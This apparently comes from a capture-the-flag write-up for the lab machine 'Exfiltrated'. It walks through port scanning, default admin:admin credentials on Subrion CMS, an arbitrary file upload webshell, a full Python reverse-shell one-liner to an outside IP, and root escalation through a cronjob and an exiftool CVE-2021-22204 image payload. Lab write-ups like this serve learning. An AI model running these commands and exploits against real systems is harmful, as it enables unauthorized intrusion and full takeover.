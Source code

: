 # Exfiltrated

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:24 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed `nmap` scan to enumerate for me as well:

```
$ sudo nmap -p 22,80 -sC -sV -O -T4 192.168.175.163                         
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:27 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
```

So there's a `/panel` directory present, and we can enumerate that first:

### Default Creds --> Subrion RCE

The `/panel` directory shows us a basic login page:

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. This software was Subrion CMS v4.2.1, which had a few public exploits:

```
$ searchsploit subrion 4.2.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting    | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                     | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                  | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                   | php/webapps/45150.txt
----------------------------------------------------------- ---------------------------------
```

We can use the Arbitrary File Upload to get a webshell on the machine:

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

From here, we can easily convert this to a reverse shell on our machine using a `python3` reverse shell.&#x20;

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Exiftool RCE

I ran `linpeas.sh` on the machine to enumerate for me, and it picked up on cronjobs running as the `root` user:

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Here's the content of the file:

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

This program uses `exiftool` to get the metadata of the image and redirects it to a file. We can find the version of `exiftool` being used here by using it on any file:

```
www-data@exfiltrated:/opt$ exiftool image-exif.sh 
ExifTool Version Number         : 11.88
File Name                       : image-exif.sh
Directory                       : .
File Size                       : 437 bytes
File Modification Date/Time     : 2021:06:10 12:06:15+00:00
File Access Date/Time           : 2023:07:01 10:24:06+00:00
File Inode Change Date/Time     : 2021:08:27 12:33:35+00:00
File Permissions                : rwxr-xr-x
File Type                       : bash script
File Type Extension             : sh
MIME Type                       : text/x-bash
```

This version is vulnerable to an RCE exploit by injecting code within the image. When `exiftool` is run on the malicious image, code would be executed as well. Since we can write to the `/var/www/html/subrion/uploads` directory, this means that we just need to create and put a malicious `.jpg` file there.

Here's a repository that can be used:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

We just need to edit `exploit.py` to have the relevant IP address and port. Afterwards, we can grab any sample image and run the exploit to update it with the payload:

```
$ python3 exploit.py
    1 image files updated
```

Afterwards, transfer it to the `/var/www/html/subrion/uploads` directory and wait for a bit. Once the cronjob runs, we will get a reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Rooted!
